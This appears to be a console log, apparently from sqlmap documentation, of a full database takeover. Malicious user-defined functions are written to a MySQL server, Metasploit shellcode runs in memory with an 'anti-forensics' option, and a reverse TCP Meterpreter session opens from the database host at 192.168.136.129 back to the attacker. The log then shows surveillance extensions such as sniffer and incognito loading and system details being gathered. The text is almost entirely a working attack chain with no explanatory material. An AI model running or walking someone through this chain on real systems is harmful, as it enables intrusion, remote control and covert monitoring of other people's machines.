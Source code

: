 ```
[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist
[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:33] [INFO] detecting back-end DBMS version from its banner
[hh:mm:33] [INFO] retrieving MySQL base directory absolute path
[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file
[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file
how do you want to execute the Metasploit shellcode on the back-end database und
erlying operating system?
[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)
[2] Stand-alone payload stager (file system way)
> 
[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode 
which connection type do you want to use?
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on 
all ports 
between the specified and 65535
[3] Bind TCP: Listen on the database host for a connection
> 
which is the local address? [192.168.136.1] 
which local port number do you want to use? [60641] 
which payload do you want to use?
[1] Meterpreter (default)
[2] Shell
[3] VNC
> 
[hh:mm:40] [INFO] creation in progress ... done
[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, p
lease wait..

                                _
                                | |      o
_  _  _    _ _|_  __,   ,    _  | |  __    _|_
/ |/ |/ |  |/  |  /  |  / \_|/ \_|/  /  \_|  |
|  |  |_/|__/|_/\_/|_/ \/ |__/ |__/\__/ |_/|_/
                        /|
                        \|


    =[ metasploit v3.7.0-dev [core:3.7 api:1.0]
+ -- --=[ 674 exploits - 351 auxiliary
+ -- --=[ 217 payloads - 27 encoders - 8 nops
    =[ svn r12272 updated 4 days ago (2011.04.07)

PAYLOAD => windows/meterpreter/reverse_tcp
EXITFUNC => thread
LPORT => 60641
LHOST => 192.168.136.1
[*] Started reverse handler on 192.168.136.1:60641 
[*] Starting the payload handler...
[hh:mm:48] [INFO] running Metasploit Framework shellcode remotely via UDF 'sys_b
ineval', please wait..
[*] Sending stage (749056 bytes) to 192.168.136.129
[*] Meterpreter session 1 opened (192.168.136.1:60641 -> 192.168.136.129:1689) a
t Mon Apr 11 hh:mm:52 +0100 2011

meterpreter > Loading extension espia...success.
meterpreter > Loading extension incognito...success.
meterpreter > [-] The 'priv' extension has already been loaded.
meterpreter > Loading extension sniffer...success.
meterpreter > System Language : en_US
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Computer        : W2K3R2
```